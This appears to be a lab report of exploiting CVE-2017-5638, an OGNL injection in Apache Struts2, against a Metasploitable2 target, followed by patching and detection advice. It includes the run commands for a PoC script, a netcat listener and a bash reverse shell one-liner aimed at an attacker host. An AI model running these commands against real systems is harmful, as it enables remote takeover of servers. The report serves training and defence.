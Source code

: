 # Apache Struts2 RCE Exploitation Report (CVE-2017-5638)

## Vulnerability Report: Apache Struts2 Content-Type OGNL Injection (CVE-2017-5638)

* **Severity**: Critical
* **Tool Used**: Manual Python PoC Script, Burp Suite
* **CVE**: CVE-2017-5638

---

## Impact

This vulnerability allows remote attackers to execute arbitrary commands on a system running a vulnerable version of Apache Struts2. The issue is due to improper handling of the `Content-Type` header, allowing OGNL expression injection.

If exploited, this can lead to full remote code execution and potentially complete system compromise.

---

## Proof of Concept

### Target

* **Victim Machine (Metasploitable2)**: `192.168.x.x`
* **Attacker Machine (Kali Linux)**: `192.168.x.x`

### Exploit Script

A Python proof-of-concept script was used to inject commands via a malicious `Content-Type` header.

```bash
python3 struts2_rce.py http://<viticm_IP>:8080/struts2-showcase/index.action "id"
```

### Reverse Shell

A reverse shell was triggered using:

```bash
# Attacker
nc -lvnp 4444

# Exploit Command
python3 struts2_rce.py http://<viticm_ip>:8080/struts2-showcase/index.action "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

---

## Recommendation

* Upgrade to a patched version of Apache Struts2 (>= 2.3.32 or 2.5.10.1)
* Use a WAF or IDS/IPS to block malicious payloads
* Sanitize and validate HTTP headers
* Perform regular vulnerability scanning and patch management

---

## Supporting Screenshots
![POC](https://github.com/user-attachments/assets/d0dc6ba0-aa2f-467e-8461-0e1302ee5b25)


---

## Detection Notes (SIEM or Netcat Monitoring)

* Monitor HTTP traffic with suspicious `Content-Type` headers
* Alert on outgoing traffic to uncommon ports (like 4444)
* Track bash or cmd processes spawned by Java-related services
